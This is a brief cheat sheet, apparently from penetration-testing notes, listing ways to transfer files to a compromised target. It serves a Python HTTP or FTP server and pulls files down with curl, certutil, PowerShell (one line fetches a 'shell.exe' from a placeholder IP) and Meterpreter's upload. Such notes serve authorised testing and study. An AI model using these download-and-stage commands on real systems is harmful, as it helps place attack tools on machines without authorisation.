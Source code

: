 # Methods to upload files to/from target

## web method

 **python -m SimpleHTTPServer**

    curl http://<ip>:8000/<file> -O <file>
    
    certutil.exe -urlcache -f http://<ip>:8000/<remotefile> <save filename>
    
    powershell -c "Invoke-WebRequest -Uri '<ip>/<shell.exe>' -OutFile '<output path>'"
    
    Naviage directly through browser 
    

## FTP 

 **python -m pyftpdlib 21**

    ftp <ip>   

## Meterpreter 

    upload
